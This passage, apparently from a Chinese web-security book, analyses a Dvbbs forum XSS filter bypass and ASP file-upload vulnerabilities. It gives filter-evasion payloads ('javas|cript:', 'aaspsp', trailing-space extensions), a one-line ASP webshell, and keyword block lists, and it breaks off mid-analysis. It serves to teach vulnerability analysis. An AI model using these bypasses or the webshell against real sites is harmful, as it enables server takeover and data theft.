我们再来整理一下它的过程：在第六步中，程序先用 `Dv_FilterJS()` 进行过滤，然后再用 `Replace()` 过滤。除了 `face=Replace(face,"\\", "/")` 这句外，其他的全是替换为空。如果我提交的 `face` 值是 `javascript:`，在传递到 `Dv_FilterJS()` 中时，因为有 `script` 字符，就会被替换成：`java<I>script</I>:`。但如果我提交的 `face` 值是：`javas|cript:`（在 `script` 中加了一个 `|` 字符），这样在交给 `Dv_FilterJS()` 验证时，因为没有和 `script` 匹配的字符，也就安然无恙地进入到 `Replace` 流程内。当走到 `face=Replace(face,"|","")` 时，因为其中包含了 `|` 字符，程序就会将其替换为空。那么，`face` 再向下传递时，就变回了：`javascript:`，哈哈！跨站代码就这样绕过去了！

我们来测试一下这个漏洞。随便进入一个动网论坛，申请一个账号。登录后打开“用户控制面板”中的“基本资料修改”页，如图 7-27。在这里，能直接修改的内容是自定义头像（myface）值，而论坛内置头像（face）的值是隐藏在选择项内，所以要修改 `face` 值，就要采取抓包提交的方式。启动 “Winsock Expert”，选择当前页，如图 7-28。
图 7-27 修改自己的资料
图 7-28 选择要监听的程序

然后点用户基本资料页中的“更新”按钮，在更新完成后，“Winsock Expert”抓取到如下提交数据：

```http
POST /mymodify.asp?action=updat&username=757800 HTTP/1.1
...........
Referer: http://bbs.dvbbs.net/mymodify.asp
...........
Host: bbs.dvbbs.net
...........
Cookie: cnzz02=37; rtime=2; ltime=1150901590266; cnzz_eid=70332315-; DvForum=usercookies=0&StatUserID=22221610207&username=flyyezi
.........
title=&sex=1&face=Images%2Fuserface%2Fimage1.gif&myface=Images%2Fuserface%2Fimage1.gif&width=32&height=32&........


    
    

```

在前面的分析过程中已经告诉大家了，当 “myface” 为空或其他几个情况下，程序才会读取 “face” 提交值，所以此处一定要将 “myface” 的值改为空。而 “face” 就是我们存放代码的地方，先清除其原值：`Images%2Fuserface%2Fimage1.gif`，然后输入我们构造好的跨站代码。因为这里是头像变量引起的漏洞，所以这里我们可以借助 `` 标签中的 `<`、`>` 来实现跨站。这里我们把 `face` 的值改成 `javas|cript:alert("jm")`，因为代码过滤了单引号，所以此处使用的是双引号。修改完数据后，我们用 NC 提交数据。提交完成后，打开动网论坛首页，在页面未打开之前，弹出了一个窗口，如图 7-29。呵呵！跨站代码执行成功！
图 7-29 跨站代码被成功执行

### 7.5 ASP 程序上传漏洞代码分析

在第二章中，大家已经体会了上传漏洞给我们带来的成就感。利用它我们可以顺利上传一个 ASP 木马，一下就得到了网站的 webshell。这比起注入漏洞来说可方便多了，所以这是一个非常严重的漏洞。

现在功能稍多一些的网站都提供了上传功能，而这样的功能我们自然不能放过。这一节我将带领大家分析 ASP 程序中常见的上传漏洞代码。不过在分析代码上传漏洞之前，还是要学习一下 ASP 程序中上传文件的基础知识，因为在上一章并没有讲。等有了这个基础之后，分析上传漏洞就简单得多了。

目前 ASP 的文件上传主要有两种方法来实现：一种是直接通过第三方组件来实现文件上传；另一种是直接通过编码来实现。下面就简单为大家介绍这两种方法，可一定要认真呀，这是分析上传漏洞代码的基础哦！

#### 7.5.1 有组件文件上传

有组件上传，顾名思义就是通过第三方组件来将客户端文件上传到服务器端。有组件上传使用比较简单，只需要购买或者下载第三方组件，在本地机器上注册后就可以直接使用了。和上一章中 ASP 内置组件使用基本一致，我们要掌握它的属性和方法。

目前使用最多的文件上传组件是 LyfUpload 组件，下面对其进行简单介绍。目前使用的都是 1.2 版，即 LyfUpload1.2。它是一个免费的 ASP 组件，可以在 ASP 页面中接收客户端浏览器使用 `encType="multipart/form-data"` 的 Form 上传文件。LyfUpload1.2 支持单文件上传、多文件上传、限制文件大小上传、限制某一类型文件上传、文件上传到数据库、从数据库读取文件及文件上传重命名等功能。

##### (1) LyfUpload 的方法

LyfUpload1.2 组件提供了 4 个方法处理文件上传：`Request`、`FileType`、`SaveFile`、`SaveFileToDb`，下面详细介绍这些方法。

- 1. `Request` 方法得到上一个页面中表单元素的值，方法声明为：  
  `Public Function Request(name As String)`  
  参数 Form 中的元素 `name`，返回值为字符串类型的元素值。
- 2. `FileType` 方法得到上传文件的 Content-Type，即文件类型，如 jpg、gif 等。`FileType` 方法声明：  
  `Public Function FileType(strTag As String)`  
  参数 `strTag` 为 Form 中文件元素的名字，如 “File1”；返回值：如果文件上传成功，返回文件的 Content-Type；如果上传不成功，返回空字符串 `""`。
- 3. `SaveFile` 方法上传客户端选择的文件到指定目录中。`SaveFile` 方法声明如下：  
  `SaveFile(strTag As String, strPath As String, strway As Boolean, [Optional] DestFileName As String) As String`  
  参数 `strTag` 为 Form 中文件元素的名字，如 “File1”；参数 `strPath` 为文件保存在服务器上的目录；参数 `strway` 为上传文件方式，覆盖方式上传为 `true`，不覆盖上传为 `false`；参数 `DestFileName` 为可选，代表文件上传后重命名保存的名字。返回值：成功则返回上传的文件名；如果上传失败，返回空字符串 `""`；如果上传文件大小太大，返回 `"0"`（当设置了 `MaxSize` 属性时有效）；如果上传文件后缀不对，返回 `"1"`（当设置了 `ExtName` 属性时有效）；如果上传文件与服务器上已有文件同名，返回 `"2"`（当参数 `strway` 为 `false` 时有效）。
- 4. `SaveFileToDb` 方法上传各类文件到数据库中（同 `SaveFile` 方法不同的是，直接保存到数据库而不保存为磁盘文件）。`SaveFileToDb` 方法声明：  
  `SaveFileToDb(strTag As String) As String`  
  参数 `strTag` 为 Form 中文件元素的名字，如 “File1”；返回值：成功则返回上传文件名；如果上传失败，返回 `""`；如果上传文件大小太大，返回 `"0"`（当设置了 `MaxSize` 属性时有效）；如果上传文件后缀不对，返回 `"1"`（当设置了 `ExtName` 属性时有效）。

`About` 方法显示 LyfUpload 组件的作者及版本号信息。

##### (2) LyfUpload 的属性

LyfUpload1.2 提供了 4 个属性：`ExtName`、`MaxSize`、`FileSize`、`DBContent`。

- 1. `ExtName` 属性为上传的扩展名，即限制上传文件类型。限制只能上传 gif，可以设置为 `ExtName="gif"`。当设置多种类型时用逗号隔开，如 `ExtName="gif,jpg,bmp"`。
- 2. `MaxSize` 属性为上传文件大小；如 `MaxSize=2048` 将限制上传的最大文件为 2048 字节，即 2K。
- 3. `FileSize` 属性返回上传文件大小，是一个只读属性。
- 4. `DBContent` 属性返回上传文件的二进制流内容，不能直接读取，用于上传文件到数据库中，如 `rs("pic").AppendChunk obj.DBContent`。

由于 LyfUpload 是第三方组件，因此在使用之前必须在本地机器上注册该控件，注册控件的方法如下所示：

- 1. 进入菜单【开始】→【运行】，弹出如图 7-30 所示界面。  
  图 7-30 注册对话框  

  在图 7-30 中输入 `regsvr32 D:\LyfUpload.dll`。其中 `D:\LyfUpload.dll` 就是 LyfUpload 组件所在完整路径。
- 2. 然后单击【确定】按钮，弹出如图 7-31 所示的注册成功对话框。其中 `regsvr32` 是注册组件的命令，后面跟着的是被注册控件的路径。  
  图 7-31 注册成功

下面我举个例子来演示如何利用 LyfUpload 组件将文件上传到服务器中。这个例子由两个文件组成，文件名分别为 `LyfUpload.html` 和 `LyfUpload.asp`。

其中 `LyfUpload.html` 主要为客户端表单，让用户选择需要上传的图片；而 `LyfUpload.asp` 是服务器端处理文件，用于获取客户端传递过来的文件，并保存到指定目录，如果是图片文件则发送到客户端显示出来。需要注意的是，上传到服务器的目录必须要先创建。

`LyfUpload.html` 文件的代码如下所示：

```html
<html>
<head>
<meta http-equiv="Content-Language" content="zh-cn">
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>文件上传表单</title>
</head>
<body>
<p>请选择需要上传的文件: </p>
<form method="POST" enctype="multipart/form-data" action="LyfUpload.asp">
```

```html
<p>请输入上传文件名：</p>
<p><input name="File_Name" size="33"></p>
<p>请选择需要上传的文件路径：</p>
<p><input type="file" name="File_Upload" size="33"></p>
<p><input type="submit" value="提交" name="B1"><input type="reset" value="重置" name="B2"></p>
</form>
</body>
</html>


```

用 LyfUpload 组件上传时，要记住在表单 form 标记中要使用 enctype 属性，其值为 multipart/form-data，如 `<form method="POST" enctype="multipart/form-data" action="LyfUpload.asp">`。LyfUpload.html 文件执行的结果如图 7-32 所示。
图 7-32 LyfUpload.html 文件执行的结果

在以上文件名文本框中输入上传到服务器后的文件名，然后单击【浏览】按钮，选择需要上传的文件。LyfUpload.asp 文件的代码如下所示：

```asp
<%@ Language=VBScript CODEPAGE="936" %>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>新建网页 1</title>
</head>
<%
' 设定服务器上保存文件的目录路径
path="c:\temp"  ' 读者可以自己随便设置

' 创建该组件
Set obj = Server.CreateObject("LyfUpload.UploadFile")

' 获取上传文件的文件名
varfname=obj.request("File_Name")

' 保存文件到服务器
RetVal=obj.SaveFile("File_Upload", path, false, varfname)

' 获取上传文件的扩展名
extName=obj.filetype("File_Upload")
if RetVal="3" then
  Response.Write "此文件在服务器上已经存在！不能覆盖！"
elseif RetVal<>"" then
  Response.Write "你的文件已经被上传到服务器的" & path & varfname & "! <br>"
  Response.Write("上传的文件名称为：" & RetVal)
  Response.Write("<br>文件类型 Content-Type：" & extName)
  Response.Write("<br>你上传的文件大小为：" & obj.FileSize)
end if
set obj=nothing
%>
<body>
</body>
</html>


```

LyfUpload.asp 文件执行后的结果如图 7-33 所示。
图 7-33 LyfUpload.asp 文件执行后的结果

此时，我们打开文件夹“c:\upload”，可以发现已经被上传成功了，如图 7-34 所示。
图 7-34 上传后的文件

#### 7.5.2 无组件文件上传

虽然使用组件实现文件上传很方便，但是仍然有很多 ASP 系统采用的是无组件上传方式。其中有一个主要原因是目前很多网站采用的是虚拟主机，电信是不允许他们注册第三方组件的，所以他们要实现上传功能就只有使用无组件上传方式了。虽然能够实现无组件文件上传，但是由于无组件上传是通过未编译的脚本语言实现的，因此它的执行速度比较慢，适合传送一些数据量比较小的文件。

第三方组件能够实现文件上传，无非就是将客户端传送到服务器端的数据进行加工处理，然后保存到服务器或数据库中。因为浏览器向服务器发送客户端数据的时候，总是有一定格式的，只要搞清楚了这些数据的基本格式，就很容易通过 ASP 实现无组件上传了。

无组件上传的核心就是分析字符串，我们要实现无组件上传，同样在客户端的 form 表单中要设置 enctype 属性，它的值也为 multipart/form-data。它是设置表单的 MIME 编码。默认情况下，这个编码格式是 application/x-www-form-urlencoded，不能用于文件上传；只有使用了 multipart/form-data，才能完整地传递文件数据。

要实现无组件上传，需要使用 Request 对象的 BinaryRead 方法读入客户提交的数据，然后通过 Response 对象的 BinaryWrite 方法输出数据。要用无组件实现上传，其客户端的代码和我们上一节中演示的客户端代码是一样的。下面我们来看它的服务器端代码，如下所示：

```asp
<% Response.Buffer=True %>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>新建网页 1</title>
</head>
<%
dim myDataSize,myData
myDataSize=Request.TotalBytes    ' 获得上传的大小
myData=Request.BinaryRead(myDataSize)  ' 读入提交的数据
Response.BinaryWrite myData      ' 输出数据
%>
<body>
</body>
</html>
```

不过有一个问题是上传之后输出的数据都是乱码，不过依然有一些规律可循。比如我们上传一个文本文件（D:\hack.txt，内容为 hack）来试验一下，文本框 filename 中保留默认值“default filename”，提交后看看输出结果：

```text
------------------------------7d429871607fe
Content-Disposition: form-data; name="file1"; filename="D:\hack.txt"
Content-Type: text/plain
hack
------------------------------7d429871607fe
Content-Disposition: form-data; name="filename"
default filename
------------------------------7d429871607fe--
```

通过上面内容的分析，可以很容易地看到，在客户端提交的数据中，包含了每个表单控件的信息，而每个表单控件之间是通过“------------------------------7d429871607fe”分隔开的。

如第一个分隔符后显示的内容是“Content-Disposition: form-data; name=\"file1\"; filename=\"D:\\hack.txt\"”，表示是表单控件“file1”文本框的信息；Content-Type: text/plain 表示文件类型，后面紧跟着是文件内容。由上面的分析可以得出一些结论：

- 普通数据控件包括 Content-Disposition、name 以及控件的值。
- 文件框控件包括 4 部分：Content-Disposition、name、Content-Type 和文件的字节流字符串。
- 表单数据的结束使用“------------------------------7d429871607fe--”标识。

通过上面的分析，我们要将文件保存到服务器中或者保存到数据库中时，只要通过一定的方法分离这些数据就可以搞定了。这就是对上传数据进行处理。至于如何处理这里我并不打算讲，因为这和我们分析上传漏洞并无很大的关系。分析上传漏洞关键在于看它对我们上传文件的后缀名是怎么处理，而这里所要处理的是文件中的数据，所以这里不讲。不过对于要进行无组件上传开发的朋友可就要好好学了。这里给出一个非常常见的无组件上传代码，如下所示：

```vb
dim upload,file,formName,iCount,FileType
FileType=".zip.doc.jpg.gif.xls.txt.exe"
set upload=new FileUpload
' FileUpload 是用来处理我们上传文件内容的一个对象，创建一个自定义对象 upload。
iCount=0

' 循环所有上传文件
for each formName in upload.file    ' upload.file 为我们所要上传的文件数
    ' 生成一个文件对象
    set file=upload.file(formName)
    if file.filesize=0 then
        HtmEnd "请选择你要上传的文件。"
        set upload=nothing
        response.end
    end if

    ' 判断文件大小
    if file.filesize>cint(uploadsize)*1024 then
        HtmEnd "文件大小超过了限制。"
        set upload=nothing
        response.end
    end if

    ' 判断文件格式
    if Instr(FileType, GetExtensionName(file.FileName)) then
    else
        HtmEnd "文件格式不符合要求。"
        set upload=nothing
        response.end
    end if

    ' 判断上传文件是否已经存在
    dim file_system,sub_files,cur_folder,each_file
    set file_system=createobject("scripting.filesystemobject")
    set cur_folder=file_system.getfolder(Server.mappath(formPath))
    set sub_files=cur_folder.files
    for each each_file in sub_files
        if instr(each_file.name,file.FileName)<>0 then
            HtmEnd "您所上传的文件 <b>" & file.FileName & "</b> 已经存在，请将文件改名后上传。"
            set upload=nothing
            response.end
        end if
    next
    set each_file=nothing
    set sub_files=nothing
    set file_system=nothing

    ' 如果上传了文件
    if file.FileSize>0 then
        file.SaveAs Server.mappath(formPath&file.FileName)  ' 保存文件
        response.write "<b>您的文件: </b> <a href=" & formPath & file.FileName & " >" & file.FilePath & file.FileName & "</a>"
        response.write "<br><b>文件大小: </b> " & file.FileSize & " Byte"
        response.write "<br><b>◇已成功上传◇</b><br>"
        iCount=iCount+1
    end if

    ' 清空 file 对象
    set file=nothing
next

' 删除 upload 对象
set upload=nothing
```

#### 7.5.3 分析上传漏洞

有了上面的基础知识，接下来就为大家介绍一些实际的上传代码，并从中找出它的漏洞。

- 我们先来看看有组件文件上传的上传漏洞，部分代码如下所示：

```vb
path="c:\temp"  ' 文件上传后所放置的目录
Set obj = Server.CreateObject("LyfUpload.UploadFile")  ' 创建 LyfUpload 组件
varfname=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&obj.filetype("File_Upload")
' 用时间来取文件上传后的新名称，而文件的后缀名则是取上传时的后缀
RetVal=obj.SaveFile("File_Upload", path, false, varfname)  ' 保存文件到服务器
```

上面的代码利用 LyfUpload 实现了上传功能，但是这段代码确实存在非常大的安全问题。我们知道，文件上传后它的新名字是用当时服务器的时间作为文件名的，而这个文件的后缀却是取我们上传文件时的后缀名。所以这里它并没有限制我们所上传文件的类型，即可以上传任何类型的文件。假设现在的时间是 2007 年 3 月 1 号 12 点 10 分 12 秒，那么我们上传一个 hack.asp 的文件到服务器中后，它的新名字为 20070301121012，因为文件的后缀是 asp，所以新文件就是 20070301121012.asp 了，并把它放在 c:\temp 目录下。

所以上面的代码没有判断我们所上传文件的类型就把它放到了服务器中。对于这样的漏洞，我们直接上传一个 asp 木马上去就可以得到 webshell 了，非常简单。我们重点就是要看它对文件后缀名是怎么处理的，如果处理不当就会出现上传漏洞。

- 下面来分析一下无组件上传代码存在的常见上传漏洞，最为简单的上传漏洞代码如下所示：

```vb
if session(CookieName)<>"" then
m=200
' 允许上传的最大文件体积，单位为 k，
' 否则不能上传或出错。
FileType="asp/aspx/"
' 不允许上传的文件后缀名，在最后保留 /

sub addfile()
a=Request.TotalBytes      ' 获取上传文件的字节数量
if a>0 Then
Set c=Createobject("adodb.stream")   ' 如大于 0 就创建数据流
c.Type=1
c.Open
c.Write Request.BinaryRead(a)    ' 将上传文件的二进制数写入到其中
c.Position=0
d=c.Read          ' 读取数据
e=chrB(13)&chrB(10)
f=Instrb(d,e)
g=Instrb(f+1,d,e)
set h=Createobject("adodb.stream")
h.Type=1
h.Open
c.Position=f+1
c.Copyto h,g-f-3
h.Position=0
h.Type=2
h.CharSet="utf-8"
i=h.Readtext
h.close
j=mid(i,InstrRev(i,"\")+1,g)
k=Instrb(d,e&e)+4
l=Instrb(k+1,d,leftB(d,f-1))-k-2   ' 计算上传文件大小
if l>m*1024 then
response.write "文件太大，请修改 upload.asp 文件的 m 的数值，默认为 200k。<a href=upload.asp?upload=file>重新上传</a>。"
response.end
elseif l=0 then
response.write "请选择上传文件。"
response.end
end if

h.Type=1
h.Open
c.Position=k-1
c.CopyTo h,1
fileext=lcase(right(j,len(j)-InStrRev(j,".")))  ' 取得上传文件后缀名
randomize
ranNum=int(90000*rnd)+10000
file_name=year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum
' 文件名为当前时间和一个随机数组成
if instr(FileType,replace(trim(fileext),".","")&"/")>0 then
' 将上传文件的后缀名与 FileType 中的后缀对比，
' 如果存在 FileType 中的后缀，那么就将其后缀名改为 txt 形式。
j=file_name&".txt"
else
j=file_name&right(j,len(j)-InStrRev(j,".")+1)
' 否则，就取得上传文件的后缀，并与文件名称组合成一个完整的文件名
end if

folder=year(now)&month(now)&day(now)
' 创建文件夹的名称为当时的年月日
folderpath=server.MapPath("./")&"/"&update&"/"&folder
' 获得保存路径
set objfso=server.createobject("scripting.filesystemobject")
if objfso.folderexists(folderpath)=false then
' 如果路径不存在就创建
objfso.createfolder(folderpath)
set objfso=nothing
end if
filename=update&"/"&folder&"/"&j
j=folderpath&"/"&j
' 保存的绝对路径
h.SaveToFile j,2
```

这里给大家整理一下代码思路：首先设置上传文件大小限制为 200K，而后取得上传文件的大小及内容。接着判断上传文件大小是否超过 200K，如果超过就出错。对上传文件重命名，为当前时间加上一个随机数。在上面的程序中，FileType 只限制了不允许上传 ASP 和 ASPX 这两种文件。系统获得上传文件的后缀名后，如果是 ASP 或 ASPX，就将它的后缀名改为 txt；如果不是，就将它放入服务器中，并且文件放在以年月日命名的文件夹中。

上面的这个代码在处理上传的时候并没有什么漏洞，问题就出在所限制的后缀名上。它这里只限制了 ASP 和 ASPX 这两种后缀，这可是一个巨大的错误，因为我们知道 IIS 不仅仅还会解析这两种后缀，还会解析 asa、asax、cer、cdx 这些后缀。所以我们只需要把 ASP 木马的后缀改成它们中间的一个，那么同样可以把文件上传到服务器，从而迅速得到 webshell。

还有就是不要因为它是 ASP 系统就只限制 IIS 所能够解析的后缀，其他的后缀比如 php、jsp 等也同样要检查，要检查所有能够在服务器端执行的后缀名。所以 FileType 应由原来的：

`FileType="asp/aspx/"`

改成：

`FileType="asp/jsp/cdx/asa/cer/htr/aspx/asax/php/cgi/pl/"`

就可以彻底防止上传漏洞的产生。

对于上面的这类漏洞，它们在处理上传的时候并没有什么问题，问题就是出在需要限制的后缀数量上。有很多上传系统并没有完全过滤掉服务器所能解析的后缀名。更为不安全的无组件上传，是它根本就没有检查上传文件的后缀名，而是直接加在了文件名后面。这类漏洞和前面有组件上传的例子差不多，这里不多讲了。

##### （3）逻辑处理错误导致的上传绕过

还有一类上传漏洞虽然检测了所有服务器能够解析的后缀名，但是在处理的时候逻辑上却出现了问题，导致我们仍然能够绕过它继续上传木马，从而轻松得到 webshell。典型代码如下所示：

```vb
Sub DoSave()
Dim oUpload, oFile, sFileExt, sFileName
dim osize,username,rs
    Set oUpload = New upfile_class
    '建立上传对象
Call Checksize(osize)
    '取得上传数据，限制最大上传
oUpload.GetData(nAllowSize*1024)
If oUpload.Err > 0 Then
    select Case oUpload.Err   '如果大于就出错
    Case 1
        Call OutScript("parent.UploadError('请选择有效的上传文件！')")
    Case 2
        Call OutScript("parent.UploadError('你上传的文件总大小超出了最大限制 (' & nAllowSize & "KB)!')")
    End Select
    Response.End
End If

Set oFile = oUpload.File("uploadfile")   '取得上传文件的文件名
sFileExt = UCase(oFile.FileExt)          '获得后缀名
osize = oFile.Filesize
sFileExt = filtfilename(sFileExt)        '检测后缀名类型
Dim sRnd
Randomize
sRnd = Int(900 * Rnd) + 100              '建立随机数
sFileName = year(now) & month(now) & day(now) & hour(now) & minute(now) & second(now) & sRnd & "." & sFileExt
'文件名为时间加上一个随机数，同时后缀名为经过 filtfilename 函数检测的后缀

oFile.SaveToFile Server.Mappath(sUploadDir & "/" & sFileName)
'保存上传的文件
Set oFile = Nothing
Set oUpload = Nothing
```

上面的代码是通过无组件的方式上传，先判断文件大小，大于限制的话就出错。接着获取上传文件的名称，同时提取它的后缀名，然后通过 `filtfilename()` 检测它的后缀名。最后用时间和随机数作为上传文件的新名字，并保存在服务器中。

上面代码中的关键就是 `filtfilename()` 函数，它用来处理我们的后缀名。如果它存在问题的话，我们就可以上传木马了。代码如下所示：

```vb
Function filtfilename(filename)
    If IsEmpty(filename) Then Exit Function  '后缀为空就退出函数
    filename = Lcase(filename)               '将后缀名换成小写形式
    filename = Replace(filename, Chr(0), "") '将 0 换成空
    filename = Replace(filename, ".", "")    '将 . 换成空
    filename = Replace(filename, "asp", "")  '将 asp 换成空
    filename = Replace(filename, "asa", "")
    filename = Replace(filename, "aspx", "")
    filename = Replace(filename, "cer", "")
    filename = Replace(filename, "cdx", "")
    filename = Replace(filename, "htr", "")
    filename = Replace(filename, "asax", "")
    filename = Replace(filename, "ascx", "")
    filename = Replace(filename, "ashx", "")
    filename = Replace(filename, "asmx", "")
    filename = Replace(filename, "axd", "")
    filename = Replace(filename, "vsdiso", "")
    filename = Replace(filename, "rem", "")
    filename = Replace(filename, "soap", "")
    filename = Replace(filename, "config", "")
    filename = Replace(filename, "cs", "")
    filename = Replace(filename, "csproj", "")
    filename = Replace(filename, "vb", "")
    filename = Replace(filename, "vbproj", "")
    filename = Replace(filename, "webinfo", "")
    filename = Replace(filename, "licx", "")
    filename = Replace(filename, "resx", "")
    filename = Replace(filename, "resou", "")
    filename = Replace(filename, "jsp", "")
    filename = Replace(filename, "php", "")
    filename = Replace(filename, "cgi", "")
    filtfilename = filename
End Function
%>
```

上面的代码将后缀名中出现的上述字符（如 asp、aspx）都替换为空。这样的代码初次看好像没有问题，但是仔细分析会发现存在很大的逻辑考虑不足，使得我们可以轻松绕过它的过滤。

比如我们提交的后缀名为 `aaspsp`，那么经过 `filtfilename()` 函数检测时，它发现后缀名中存在 `asp` 关键字，就会把 `asp` 替换为空。那么替换之后，我们提交的 `aaspsp` 就变成了 `asp`。这样经过过滤之后，后缀名就由 `aaspsp` 变成了 `asp`。

所以对于这样的过滤函数，我们只需要稍微对后缀名变换一下就可以绕过它。对于 `asp`，我们只需要把后缀名改成 `aaspsp` 就可以绕过；对于 `php`，只需要换成 `phpphp` 也绕过了；其他后缀名也是类似的。

##### （4）检查内容关键字仍可被绕过

有的系统不仅会检查我们上传文件的后缀名，同时也会检查上传文件中的内容。检查内容是为了看是否有木马存在，因为不管木马怎么编写，总会存在一些相同的关键字。例如 getfolder、createfolder、deletefolder、createdirectory 等等。虽然这样做比前面的要更加谨慎一些，但是处理不好仍然会出问题。

中网景论坛就是采用这种方法来处理上传文件的，但依然存在漏洞。下面来分析一下，先看它是怎么处理上传文件的，代码如下所示：

```vb
fileExt = lcase(ofile.FileExt)
arrUpFileType = split(UpFileType,"|")
for i = 0 to ubound(arrUpFileType)
    if fileExt = trim(arrUpFileType(i)) then
        EnableUpload = true
        exit for
    end if
next
if fileExt = "asp" or fileExt = "asa" or fileExt = "aspx" then
    '这里这一句竟然不限制 cer 和 cdx 后缀！但无关紧要，这与服务器设置有关。
    EnableUpload = false
end if
if EnableUpload = false then
    msg = "这种文件类型不允许上传！\n\n只允许上传这几种文件类型：" & UpFileType
    FoundErr = true
end if
```

上面的代码可以看到，如果检测到文件后缀名为 asp、asa、aspx 中的一种，就会给 `EnableUpload` 赋值 `false`，即不允许上传。但是它仅仅限制了这三种。我们已经知道，ASP 不仅会解析这三个后缀名，同样会解析 cer 和 cdx 后缀，所以把后缀改成它们即可绕过这个上传系统。

其实就算把 cer 和 cdx 加上去，即：

`if fileExt="asp" or fileExt="asa" or fileExt="aspx" or fileExt="cer" or fileExt="cdx"`

我们也可以突破。比如上传一个木马，后缀名为 `asp`，并在后面加一个空格。因为 `asp `（后面有空格）是不等于 `asp` 的，而 Windows 对于这种有空格的情况会自动去掉空格，所以当我们上传一个 asp 文件时，最终会变成一个 asp 文件，那么又被我们突破了。

所以只要在后缀名后加上一个空格，依然可以突破它的限制。不管怎么变，几乎都等于是形同虚设。这段代码使用的是化境无组件上传类，目前非常多的网站使用了这个上传类。只要发现了它的踪影，那么就可以获得 webshell 了。

文件上传后，系统还会对上传文件内容进行检查，下面就是检查文件内容的代码：

##### ……省略部分代码……

```vb
filename = SavePath & year(now) & month(now) & day(now) & hour(now) & minute(now) & second(now) & ranNum & "." & fileExt

ofile.SaveToFile Server.MapPath(FileName)   '保存文件
'====================
'检查上传文件内容，防木马
'--------------------
set MyFile = server.CreateObject("Scripting.FileSystemObject")
sFile = Server.MapPath(FileName)
set MyText = MyFile.OpenTextFile(sFile, 1)
    '读取文本
sTextAll = lcase(MyText.ReadAll): MyText.close
    '判断用户文件中的危险操作
sStr = "8|.getfolder|.createfolder|.deletefolder|.createdirectory|.deletedirectory|.saveas|wscript.shell|script.encode"
sNoString = split(sStr,"|")   '去掉 | 符号
for i = 1 to sNoString(0)     '循环检查 sNoString 中的字符串
if instr(sTextAll, sNoString(i)) <> 0 then
    sFile = Upl.Path & sFileSave: fs.DeleteFile sFile
    Set dFile = MyFile.GetFile(sFile)
    dFile.Delete True
    '如果上传的文件中含有上面的关键字，就删除文件
    Response.write sFileSave & "<span style=""font-family: 宋体; font-size: 9pt"">文件中含有与操作目录等有关的命令" & mid(sNoString(i),2) & "，为了安全原因，不能上传。[ <a href=# onclick=history.go(-1)>重新上传</a> ]</span>"
    Response.end
end if
next


```

上面的这段代码主要是检查所上传文件的内容。如果发现文件内容包含 `.getfolder`、`.createfolder`、`.deletefolder`、`.createdirectory`、`.deletedirectory`、`.saveas`、`wscript.shell`、`script.encode` 等字符串，就把文件删掉。一般的 ASP 后门都会包含这些内容，所以就算我们上传了 ASP 木马，也会因为检查上传文件内容而导致上传文件被删除，那么前面的功夫等于是白费。

因此我们要对上传的 ASP 木马进行变换，常见的就是对其进行加密。虽然代码经过加密会减少很多字符，但仍会有 `script.encode`。乍一看，不加密上传不了，加了密也上传不了，那还能上传什么？

大家在使用 DOMAIAN3.5 的时候，一定还记得上面自带的 DIY.asp 木马吧。这个木马不存在上面的关键字，如图 7-35 所示，所以我们用它来上传。但是，这只小马已经是多家杀毒软件的查杀对象了，除非是瑞星（笔者也觉得怪，瑞星竟然不杀这个？），这要靠你的运气了。
笔者的运气不错，在一次测试过程中就碰到个瑞星的。但这也不是办法，如果是卡巴的话，就会把它杀掉了，那又该怎么办？想了一会儿，终于记得还有一句话木马：`<%if request("#")<>"" then execute(request("#"))%>`。这句代码也没有包含上述内容，应该可以上传。

我们上传一个 asp 文件，其内容为 `<%if request("#")<>"" then execute(request("#"))%>`。在得到该文件的新名字之后，我们就用一句话木马客户端进行连接，这样同样可以得到 webshell。

##### （5）动网上传漏洞示例

最后给大家讲解一下动网的上传漏洞。大家要记住，这个漏洞不仅仅只有动网有，其他很多系统都存在这个漏洞，只是这里用动网作为例子罢了。动网大家现在也都知道了，它是目前国内很好的 ASP 论坛。如果能够看懂并分析出它的上传漏洞，那基本上大部分上传漏洞都能分析出来。

```vb
在动网 7.0 SP2 以下版本曾经出现过一个巨大的上传漏洞，下面用它来作为例子说明。
动网论坛上传文件的相关代码：

sub upload_0()
set upload = new UpFile_Class                 '建立上传对象
upload.GetData(int(Forum_Setting(56))*1024)  '取得上传数据，不限大小
iCount = 0
if upload.err > 0 then                        '对错误的处理
    select case upload.err
    case 1
        Response.Write "请先选择你要上传的文件 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
    case 2
        Response.Write "图片大小超过了限制 " & Forum_Setting(56) & "K [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
    end select
    exit sub
else
    formPath = upload.form("filepath")
    '在目录后加 (/)
    if right(formPath,1) <> "/" then formPath = formPath & "/"

    for each formName in upload.file
        '列出所有上传了的文件
        set file = upload.file(formName)
        '生成一个文件对象
        if file.filesize < 100 then
            response.write "请先选择你要上传的图片 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
            response.end
        end if

        fileExt = lcase(file.FileExt)                 '得到文件后缀名
        if CheckFileExt(fileExt) = false then         '检测文件后缀名类型
            response.write "文件格式不正确 [ <a href=# onclick=history.go(-1)>重新上传</a> ]"
            response.end
        end if

        randomize
        ranNum = int(90000*rnd) + 10000
        filename = formPath & year(now) & month(now) & day(now) & hour(now) & minute(now) & second(now) & ranNum & "." & fileExt
        if file.FileSize > 0 then
            '如果 FileSize > 0 说明有文件数据
            file.SaveToFile Server.MapPath(filename)
            '保存文件
            response.write file.FilePath & file.FileName & " (" & file.FileSize & ") => " & formPath & File.FileName & " 成功!<br>"
            response.write "<script>parent.document.forms[0].myface.value='" & FileName & "'</script>"
            iCount = iCount + 1
        end if
        set file = nothing
    next

    set upload = nothing
    session("upface") = "done"
    Htmend iCount & " 个文件上传结束!"
end if
```

```vb
End Sub
```

在上面代码中可以看到这样一句：

```vb
filename=formPath&year(now)&month(now)&day(now)&hour(now)&minute(now)&second(now)&ranNum&"."&fileExt
```

这里，`filename` 是保存的文件名，它是依照上传时间来命名的，最后扩展名是表单中提交过来的文件的扩展名。但是程序中对提交文件的类型做了限制，显然想直接上传 ASP 文件是不可行的。但是我们来看一下作为后缀的依据从哪里来的呢？我们可以在 `reg_upload.asp` 中找到这样的代码：

```html
<form name="form" method="post" action="upfile.asp" enctype="multipart/form-data">
<input type="hidden" name="filepath" value="uploadFace">
